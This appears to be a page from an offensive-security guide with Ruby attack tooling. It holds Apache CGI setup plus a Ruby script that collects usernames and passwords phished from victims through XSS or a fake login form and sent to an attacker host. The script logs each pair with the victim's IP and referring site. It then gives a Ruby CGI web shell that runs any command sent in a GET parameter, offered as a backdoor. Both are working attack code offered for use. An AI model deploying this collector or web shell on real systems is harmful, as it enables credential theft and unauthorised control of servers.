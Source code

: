 ### Get info - from XSS/HTMLi exploitation

When you exploit XSS or HTML injection you may need to receive the grepped data from exploited user to your external server. Here a simple example of CGI script take sent get request from fake login from that asks users to enter log-in with username and password then will store the data to `hacked_login.txt` text file and fix its permissions to assure that nobody can access that file from public.

Add the following to `/etc/apache2/sites-enabled/[SITE]` then restart the service

```text
<Directory /var/www/[CGI FOLDER]>
        AddHandler cgi-script .rb
        Options +ExecCGI
</Directory>
```

Now, put the script in /var/www/\[CGI FOLDER\]. You can use it now.

```ruby
#!/usr/bin/ruby
# CGI script gets user/pass | http://attacker/info.rb?user=USER&pass=PASS
require 'cgi'
require 'uri'

cgi  = CGI.new
cgi.header  # content type 'text/html'
user = URI.encode cgi['user']
pass = URI.encode cgi['pass']
time = Time.now.strftime("%D %T")

file = 'hacked_login.txt'
File.open(file, "a") do |f|
  f.puts time   # Time of receiving the get request
  f.puts "#{URI.decode user}:#{URI.decode pass}"    # The data
  f.puts cgi.remote_addr    # Remote user IP
  f.puts cgi.referer    # The vulnerable site URL
  f.puts "---------------------------"
end
File.chmod(0200, file)  # To prevent public access to the log file

puts ""
```

### Web Shell - command execution via GET

if you have a server that supports ruby CGI, you can use the following as backdoor

```ruby
#!/usr/bin/env ruby
require 'cgi'
cgi = CGI.new
puts cgi.header
system(cgi['cmd'])
```
